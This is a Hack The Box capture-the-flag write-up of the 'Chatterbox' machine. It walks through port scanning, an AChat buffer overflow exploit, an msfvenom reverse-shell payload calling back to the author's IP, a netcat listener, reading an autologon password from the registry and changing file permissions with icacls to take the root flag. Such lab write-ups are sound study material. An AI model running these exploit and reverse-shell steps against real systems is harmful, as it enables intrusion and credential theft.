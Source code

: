 ```yaml
---
title: 'Chatterbox Writeup'
date: 2018-06-18
thumbnailImagePosition: left
thumbnailImage: /img/posts/2018/06/chatterbox-writeup/chatterbox-writeup-banner.png
coverImage: /img/posts/2018/06/chatterbox-writeup/chatterbox-writeup-banner.png
coversize: partial
coverMeta: out
metaAlignment: center
clearReading: true
categories:
- Hackthebox
- CTF
- Writeup
tags:
- hackthebox
- htb
- pentest
- ctf
showTags: false
showPagination: true
showSocial: true
showDate: true
comments: false
summary: "My writeup of the Hack the box Chatterbox."
---
```


> Never tell everything you know... -Roger H. Lincoln

A box that warranted a lot of resets and frustrations. Due to the fact that the initial shell was provided with a Buffer Overflow, and crashing the service at the same time.

Connecting with my supplied VPN from HackTheBox[^1], and performing the initial NMAP scan on the box IP: 10.10.10.74
```
root@kali:~/Chatterbox$ nmap -p- -T4 -Pn 10.10.10.74
Starting Nmap 7.70 ( https://nmap.org ) at 2018-06-18 16:57 CEST
Nmap scan report for AChat (10.10.10.74)
Host is up (0.041s latency).
Not shown: 65533 filtered ports
PORT     STATE SERVICE
9255/tcp open  mon
9256/tcp open  unknown

Nmap done: 1 IP address (1 host up) scanned in 287.36 seconds
```
So that gives us two ports, lets run a more thorough scan on both.
```
root@kali:~/Chatterbox$ nmap -p9255,9256 -sV --version-all 10.10.10.74
Starting Nmap 7.70 ( https://nmap.org ) at 2018-06-18 17:05 CEST
Nmap scan report for AChat (10.10.10.74)
Host is up (0.042s latency).

PORT     STATE SERVICE VERSION
9255/tcp open  http    AChat chat system httpd
9256/tcp open  achat   AChat chat system

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 7.09 seconds
```
Verification of these services can be done with a simple banner grab using netcat
```
root@kali:~/Chatterbox$ nc 10.10.10.74 9255
> GET / HTTP/1.1

HTTP/1.1 204 No Content
Connection: close
Server: AChat
```
Now it serves a HTTP 204 No Content, but the server seems interesting. Reporting as AChat[^2] we can determine (Unless its a fake HTTP Server), that theres some kind of chat server running behind that port.
Using Searchsploit we can quite quickly see if there is some ready made exploit available.
```
root@kali:~/Chatterbox$ searchsploit achat
-------------------------------------------- ----------------------------------
 Exploit Title                              |  Path
                                            | (/usr/share/exploitdb/)
-------------------------------------------- ----------------------------------
Achat 0.150 beta7 - Remote Buffer Overflow  | exploits/windows/remote/36025.py
[..snip..]
-------------------------------------------- ----------------------------------
Shellcodes: No Result
Papers: No Result
```
So there is as I mentioned before a ready made Buffer OverFlow, that could be used.
First of all copy it to the current directory and look into the sourcecode (remember to never run anything without reviewing the sourcecode).
```
root@kali:~/Chatterbox$ searchsploit -m 36025.py
  Exploit: Achat 0.150 beta7 - Remote Buffer Overflow
      URL: https://www.exploit-db.com/exploits/36025/
     Path: /usr/share/exploitdb/exploits/windows/remote/36025.py
File Type: Python script, ASCII text executable, with very long lines, with CRLF line terminators

Copied to: /root/Documents/Documentation/CTF/htb/chatterbox/blog/36025.py
```
The exploit comes with some customization. Namely create your own shellcode to use in the exploit, and as the exploit suggests lets use msfvenom to create a reverse shell.
```
root@kali:~/Chatterbox$ msfvenom -a x86 --platform Windows -p windows/shell_reverse_tcp LHOST=10.10.14.7 LPORT=4000 -e x86/unicode_mixed -b '\x00\x80\x81\x82\x83\x84\x85\x86\x87\x88\x89\x8a\x8b\x8c\x8d\x8e\x8f\x90\x91\x92\x93\x94\x95\x96\x97\x98\x99\x9a\x9b\x9c\x9d\x9e\x9f\xa0\xa1\xa2\xa3\xa4\xa5\xa6\xa7\xa8\xa9\xaa\xab\xac\xad\xae\xaf\xb0\xb1\xb2\xb3\xb4\xb5\xb6\xb7\xb8\xb9\xba\xbb\xbc\xbd\xbe\xbf\xc0\xc1\xc2\xc3\xc4\xc5\xc6\xc7\xc8\xc9\xca\xcb\xcc\xcd\xce\xcf\xd0\xd1\xd2\xd3\xd4\xd5\xd6\xd7\xd8\xd9\xda\xdb\xdc\xdd\xde\xdf\xe0\xe1\xe2\xe3\xe4\xe5\xe6\xe7\xe8\xe9\xea\xeb\xec\xed\xee\xef\xf0\xf1\xf2\xf3\xf4\xf5\xf6\xf7\xf8\xf9\xfa\xfb\xfc\xfd\xfe\xff' BufferRegister=EAX -f python > shellcode.py
Found 1 compatible encoders
Attempting to encode payload with 1 iterations of x86/unicode_mixed
x86/unicode_mixed succeeded with size 774 (iteration=0)
x86/unicode_mixed chosen with final size 774
Payload size: 774 bytes
Final size of python file: 3706 bytes
```
Now LHOST and LPORT are my own, substitute for your IP recieved by HackTheBox. The important part is that the shellcode generated is below 1152 bytes, as that is specified as the largest payload for this exploit. Mine that was generated is 774 bytes, so well below the threshold.
Using a texteditor lets remove the existing 'buf' lines from the exploit and replace with our generated ones.
Now using the exploit, we also need to have a listener before the service is exploited.
```
Exploit:
root@kali:~/Chatterbox$ python 36025.py
---->{P00F}!
root@kali:~/Chatterbox$
```
```
Listener:
root@kali:~/Chatterbox$ nc -lvvp 4000
listening on [any] 4000 ...
connect to [10.10.14.7] from AChat [10.10.10.74] 49157
Microsoft Windows [Version 6.1.7601]
Copyright (c) 2009 Microsoft Corporation.  All rights reserved.

C:\Windows\system32>whoami
whoami
chatterbox\alfred
C:\Windows\system32>
```
Cool, has shell, as 'Chatterbox\Alfred'.
```
c:\Users\Alfred\Desktop>dir /Q
Directory of c:\Users\Alfred\Desktop
[..snip..]
12/10/2017  07:50 PM                32 CHATTERBOX\Alfred      user.txt
[..snip..]
c:\Users\Alfred\Desktop>
```
So that takes care of one flag. Lets go for root!
Doing some registry enumeration, which can be automated with scripts like Sherlock.ps1[^3].
We are presented with:
```
c:\Users\Alfred\Desktop>reg query "HKLM\Software\Microsoft\Windows NT\CurrentVersion\Winlogon"
HKEY_LOCAL_MACHINE\Software\Microsoft\Windows NT\CurrentVersion\Winlogon
[..snip..]
    DefaultUserName    REG_SZ    Alfred
    AutoAdminLogon    REG_SZ    1
    DefaultPassword    REG_SZ    Welcome1!
[..snip..]
c:\Users\Alfred\Desktop>
```
Got a user and the password, what would the odds be that Alfred uses the same password for the administrator account?
One could use powershell to get a shell as Administrator. But since you also have read access into the Administrator user as Alfred, we can also see if we can change permissions on root.txt using icacls.
```
c:\Users\Administrator>icacls c:\Users\administrator\desktop\root.txt CHATTERBOX\Alfred:(RX)
icacls c:\Users\administrator\desktop\root.txt CHATTERBOX\Alfred:(RX)
Invalid parameter "CHATTERBOX\Alfred:(RX)"

c:\Users\Administrator>icacls c:\Users\Administrator\Desktop\root.txt /grant everyone:(f)
icacls c:\Users\Administrator\Desktop\root.txt /grant everyone:(f)
processed file: c:\Users\Administrator\Desktop\root.txt
Successfully processed 1 files; Failed processing 0 files

c:\Users\Administrator>type Desktop\root.txt
type Desktop\root.txt
EatSleepPwnRepeat
```


[^1]: [www.hackthebox.eu](www.hackthebox.eu)  
[^2]: [www.sourceforge.net/projects/achat/](https://sourceforge.net/projects/achat/)  
[^3]: [www.github.com/rasta-mouse](https://github.com/rasta-mouse/Sherlock/blob/master/Sherlock.ps1)
